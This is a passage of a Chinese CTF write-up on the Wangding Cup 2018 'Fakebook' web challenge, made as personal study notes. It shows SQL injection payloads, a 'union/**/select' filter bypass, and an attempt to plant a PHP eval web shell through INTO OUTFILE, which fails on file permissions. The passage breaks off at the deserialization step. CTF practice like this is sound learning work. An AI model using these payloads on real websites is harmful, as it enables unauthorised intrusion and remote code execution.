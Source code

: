 **此篇用来记录刷题过程中刷到的网鼎杯的题目**

## [网鼎杯 2018]Fakebook



### <font color='pink'>获取信息</font>

![image-20220725121105979](D:\Typora\note\CTF\web\网鼎杯.assets\image-20220725121105979.png)

打开题目，`login 和 join`
警觉是不是二次注入，所以用`1'||1=1;#`注册了一个账号(但其实不是)
![image-20220725121401738](D:\Typora\note\CTF\web\网鼎杯.assets\image-20220725121401738.png)

点击**username**
![image-20220725121425515](D:\Typora\note\CTF\web\网鼎杯.assets\image-20220725121425515.png)

发现端倪`?no=1`
试试`?no=0||1=1;--+`成功返回上面一样的界面，存在sql注入
然后先试试联合注入`0 union select 1,2,3,4;--+` 回显`no hack ~_~`
但是单独试**union**和**select**都不报错？？不知道怎么过滤的，那就试试盲注
写了脚本注了半天，数据库是`fakebook`，表也只有`fakebook`，死活注不出来列名，只能换个思路
继续刚刚的思路，`union 和 select`单独都没绕过，为什么一起却绕过了呢？
试试  `0 union/**/select 1,2,3,4;--+`  成功回显..... 绕过的是`union select`(无语。。)

![image-20220725122115795](D:\Typora\note\CTF\web\网鼎杯.assets\image-20220725122115795.png)

**抓住每个透露出来的信息**
有一个敏感函数**unserialize**，告诉了路径**/var/www/html/**，还有一个类函数**getBlogContents()**
sql加路径，难不成是

### <font color='pink'>sql写入一句话木马？</font>

没遇见过这样的题，只知道有这个方法，先试试

> **into outfile**
>
>  **SELECT xxx INTO OUTFILE语句把表数据导出到一个文本文件中，并用LOAD DATA …INFILE语句恢复数据。但是这种方法只能导出或导入数据的内容，不包括表的结构，如果表的结构文件损坏，则必须先恢复原来的表的结构。**

```sql
先这样试试，不确定存不存在flag.php
0 union/**/select 1,2,'<?php eval($_POST[1])?>',4 into outfile "/var/www/html/flag.php";--+
[*] query error! (File '/var/www/html/flag.php' already exists)
然后发现真的存在...此时更加确定了这种方法
0 union/**/select 1,2,'<?php eval($_POST[1])?>',4 into outfile "/var/www/html/shell.php";--+
[*] query error! (Can't create/write to file '/var/www/html/shell.php' (Errcode: 13 "Permission denied"))
但是...没有权限
```

这种方法就不行了，此时只能考虑`unserialize`了

### <font color='pink'>反序列化</font>
